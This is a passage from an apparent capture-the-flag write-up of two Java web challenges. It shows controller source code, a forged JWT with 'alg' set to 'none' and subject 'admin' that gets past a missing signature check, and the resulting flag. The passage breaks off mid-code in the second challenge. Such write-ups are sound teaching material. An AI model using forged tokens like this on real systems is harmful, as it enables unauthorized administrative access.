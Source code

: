 ```java
        model.addAttribute("jwt", jwt_guest);
        model.addAttribute("sub", sub);
        if (sub.equals(ADMIN)) model.addAttribute("flag", FLAG);

        return "index";
    }
}
```

As we can see, the JWT library is only parsing the incoming JWT, not actually verifying that the JWT was hashed with the given secretKey. All we have to do is to set the `alg` to `none` and sub to `admin`, we can use [https://token.dev/](https://token.dev/) for that:
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJzdWIiOiJhZG1pbiJ9
```
Which decodes to 
```
Header
{
  "typ": "JWT",
  "alg": "none"
}
Payload
{
  "sub": "admin"
}
```

**LINECTF{337e737f9f2594a02c5c752373212ef7}**

<a name="jalyboy-jalygirl"></a>
## jalyboy-jalygirl (100 pts, 189 solves) - Web

Description:
```
It's almost spring. Do you like Java?

http://34.85.123.82:10001/
```

This is the new `JwtController.java`, we can compare it to `jalyboy-baby` to more easily find the vulnerability:
```java
@Controller
public class JwtController {

    public static final String ADMIN = "admin";
    public static final String GUEST = "guest";
    public static final String UNKNOWN = "unknown";
    public static final String FLAG = System.getenv("FLAG");
    KeyPair keyPair = Keys.keyPairFor(SignatureAlgorithm.ES256);

    @GetMapping("/")
    public String index(@RequestParam(required = false) String j, Model model) {
        String sub = UNKNOWN;
        String jwt_guest = Jwts.builder().setSubject(GUEST).signWith(keyPair.getPrivate()).compact();
        System.out.println(keyPair.getPrivate().getEncoded());
        System.out.println(keyPair.getPublic());

        try {
            Jws<Claims> jwt = Jwts.parser().setSigningKey(keyPair.getPublic()).parseClaimsJws(j);
            Claims claims = (Claims) jwt.getBody();
            if (claims.getSubject().equals(ADMIN)) {
                sub = ADMIN;
```